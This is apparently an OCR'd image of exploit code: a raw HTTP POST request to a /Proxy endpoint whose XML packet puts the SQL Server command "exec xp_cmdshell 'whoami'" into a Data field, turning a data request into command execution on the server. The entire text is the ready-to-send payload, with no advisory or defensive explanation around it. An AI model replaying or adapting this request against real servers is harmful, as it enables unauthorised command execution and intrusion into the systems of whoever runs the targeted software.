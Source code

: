 POST /Proxy HTTP/1.1Content-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)Host: localhostContent-Length: 341Connection: Keep-AliveCache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
